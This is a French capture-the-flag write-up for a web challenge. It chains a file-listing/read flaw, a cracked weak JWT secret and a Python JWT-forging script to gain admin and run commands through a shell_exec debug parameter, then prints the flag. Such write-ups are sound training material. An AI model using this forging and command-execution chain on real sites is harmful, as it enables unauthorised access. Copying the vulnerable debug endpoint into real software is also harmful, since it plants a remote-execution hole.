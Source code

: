 ![Desc](images/desc.png)

# Writeup

On part d’une page web qui nous permet de lister des ingrédients "pour une glace comme fait notre papi", la première vulnérabilité est une Local File Inclusion, en effet en modifiant le paramètre `dir=ingredients` par `dir=/`, on peut lister les fichiers et dossiers du dossier courant :

![LFI](images/list.png)

Voici le fichier admin.php :

```php
<?php
$canExecute = false;
$secret = trim(file_get_contents('jwt_secret.txt'));

$adminToken = trim(file_get_contents('role.txt'));

function base64url_encode($data) {
    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
}

function base64url_decode($data) {
    return base64_decode(strtr($data, '-_', '+/'));
}

function verify_jwt_hs256($jwt, $secret) {
    $parts = explode('.', $jwt);
    if (count($parts) !== 3) return false;

    list($header_b64, $payload_b64, $sig_b64) = $parts;
    $expected_sig = base64url_encode(hash_hmac('sha256', "$header_b64.$payload_b64", $secret, true));

    if (!hash_equals($expected_sig, $sig_b64)) return false;

    return json_decode(base64url_decode($payload_b64), true);
}

function is_admin($jwt, $secret, $adminRole) {
    $payload = verify_jwt_hs256($jwt, $secret);
    if (!$payload) return false;
    return isset($payload['role']) && strtoupper(trim($payload['role'])) === strtoupper(trim($adminRole));
}

if (isset($_COOKIE['auth'])){
    if (is_admin($_COOKIE['auth'], $secret, $adminToken)) {
        
    
    $canExecute = true;
    }
}

if (!$canExecute) {
    $header = base64url_encode(json_encode(['alg' => 'HS256', 'typ' => 'JWT']));
    $payload = base64url_encode(json_encode(['role' => 'simple-utilisateur']));
    $signature = base64url_encode(hash_hmac('sha256', "$header.$payload", $secret, true));

    $jwt = "$header.$payload.$signature";

    setcookie('auth', $jwt, time() + 3600, "/");
    $_COOKIE['auth'] = $jwt;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['debug'])) {
    if (!$canExecute) {
        echo "<p>Tu ne peux pas executer de commandes avec debug tant que tu n'es pas authentifié en tant qu'admin</p>";
        exit;
    }

    $cmd = $_GET['debug'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
    exit;
}
?>
```

Ce script récupère le secret JWT depuis `jwt_secret.txt` et le rôle admin attendu depuis `role.txt`, puis il vérifie le JWT du cookie, génère un token "simple-utilisateur" si l’utilisateur n’est pas admin, et n’autorise l’exécution de commandes via ?debug qu’en cas de correspondance entre le rôle du JWT et celui de `role.txt`.

L'idéal serait donc de pouvoir récupérer le secret jwt et le rôle admin pour forger le token admin, mais ce n'est pas vraiment possible via le `?dir`.

En revanche en indiquant uniquement `/role.txt` à partir de l'url on recupère le vrai rôle admin :

![ADMINROLE](images/adminrole.png)

> [!NOTE] 
> Après coup je me suis rendu compte que l'on pouvait également récupérer le secret jwt avec cette même méthode mais idiot comme je suis je n'ai même pas testé x)

Nous avons accès au token jwt avec le rôle "simple-utilisateur" au départ mais il faut le secret jwt pour forger le bon token pour le rôle admin, on peut utiliser jwt_tool pour cracker ce secret (ou hashcat) :

![SECRET](images/secret.png)

On utilise un script python pour forger le bon token maintenant que nous avons tout :

```python
import hmac
import hashlib
import base64
import json

def b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

def make_jwt(secret: str, role: str, header_b64: str = None) -> str:
    if header_b64:
        h_b64 = header_b64
    else:
        h_b64 = b64url(json.dumps({'alg':'HS256','typ':'JWT'}, separators=(',',':')).encode())
    p_b64 = b64url(json.dumps({'role':role}, separators=(',',':')).encode())
    sig = hmac.new(secret.encode(), f"{h_b64}.{p_b64}".encode(), hashlib.sha256).digest()
    s_b64 = b64url(sig)
    return f"{h_b64}.{p_b64}.{s_b64}"

if __name__ == '__main__':
    secret = 'icecream'
    role = 'PAPI-JE-SUIS-UN-ADMIN'
    print(make_jwt(secret, role))
```

![TOKEN](images/forge.png)

On remplace le token simple utilisateur par ce token admin dans notre navigateur et on regarde si l'on peut effectuer des commandes à l'aide de l'option `?debug` :

![ID](images/id.png)

Nous sommes admin, il ne reste plus qu'à trouver le flag maintenant, en fouillant un peu on le trouve dans secrets/.recette_de_papi :

![FLAG](images/flag.png)

**Flag**

`SHLK{Ic3_Cr3am_L0v3r}`